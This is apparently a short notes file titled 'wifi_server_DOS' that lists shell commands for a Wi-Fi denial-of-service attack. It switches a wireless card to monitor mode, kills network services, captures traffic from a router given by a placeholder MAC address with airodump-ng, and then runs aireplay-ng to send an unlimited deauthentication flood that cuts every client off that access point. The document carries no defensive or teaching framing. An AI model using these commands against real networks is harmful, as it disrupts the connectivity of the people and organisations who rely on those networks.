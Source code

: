 # wifi_server_DOS
sudo -s


ifconfig wlo1 down


iwconfig wlo1 mode monitor


ifconfig wlo1 up


airmon-ng check wlo1


<(kill NetworkManager  >>  then dhclient  >> then all others)>


airodump-ng -c 6 -w SCAN_test1 --bssid <mac_address_of_router> wlo1


aireplay-ng -0 0 -a <mac_address_of_router> wlo1


# wifi_server_DOS
# wifi_server_DOS
